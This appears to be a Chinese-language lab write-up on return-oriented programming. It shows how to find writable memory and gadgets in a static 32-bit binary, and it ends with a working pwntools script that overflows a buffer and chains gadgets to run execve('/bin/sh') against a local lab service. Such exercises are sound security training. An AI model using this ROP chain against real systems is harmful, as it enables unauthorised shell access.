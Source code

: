 # Lab5 rob

## 先備知識

### How to find the writeable buffer

.bss和.data的地方都是可以當buffer寫入的，可以用`gdb$ readelf`來確認他們的address，但因為.bss前面可能會用到，所以我們可以先用x/x <.bss address>來確認可不可以寫，如果是0x00000000的話就是沒有被用到可以寫進去

### flat([])

- 用flat()前要先指定x86或是x64，若為x86則`context.arch="i386"`
- `flat([0x1234, 0x5678])` 等於 `p32(0x1234)+p32(0x5678)`

## simple ROB

execve("/bin/sh", NULL, NULL)

1. write to memory
將"/bin/sh"字串寫入到memory中
2. write to register
eax=0xb, ebx=address of "/bin/sh", ecx=0, edx=0
3. int 0x80

## Solve

1. file <binary> 先看他是否為static linking
2. ROBgadget - -binary <binary> > dump 將gadget dump下來等等可以查看
3. 找BOF return offset → 32，並且只能再塞68bytes gadget
4. gdb$ readelf 找buffer → .bss = 0x80eaf80, .data = 0x80ea060
5. write to memory
    1. 找 mov dword ptr [reg], reg
    cat dump | grep "mov dword ptr \[edx], eax" → 0x0809a15d : mov dword ptr [edx], eax ; ret
    2. 找 pop edx
    cat dump | grep "pop edx" → 0x0806e82a : pop edx ; ret
    3. 找 pop eax
    cat dump | grep "pop eax" → 0x080bae06 : pop eax ; ret
6. write to register

    找pop edx ; pop ecx ; pop ebx ; 
    cat dump | grep "pop edx ; pop ecx ; pop ebx ;"→ 0x0806e850 : pop edx ; pop ecx ; pop ebx ; ret

7. system call

    找int 0x80
    cat dump | grep "int 0x80" → 0x080493e1 : int 0x80

```python
from pwn import *

host = "127.0.0.1"
port = 8888
r  = remote(host, port)

context.arch = "i386" # x86
# context.log_level = "debug" # for debug mode

## bof
payload = 'a'*32 

## write to memory
buf = 0x80ea060 # .data
mov_edx_eax = 0x0809a15d
pop_edx = 0x0806e82a
pop_eax = 0x080bae06
rop = flat([pop_edx, buf, pop_eax, "/bin", mov_edx_eax])
rop += flat([pop_edx, buf+4, pop_eax, "/sh\x00", mov_edx_eax])
# print len(rop) # 40

## write to register
pop_edx_exc_ebx = 0x0806e850
rop += flat([pop_edx_exc_ebx, 0, 0, buf])
rop += flat([pop_eax, 0xb])

## system call
int_0x80 = 0x080493e1
rop += flat([int_0x80])
# print len(rop) #68

payload += rop
r.recvuntil(":")
r.sendline(payload)
r.interactive()
```
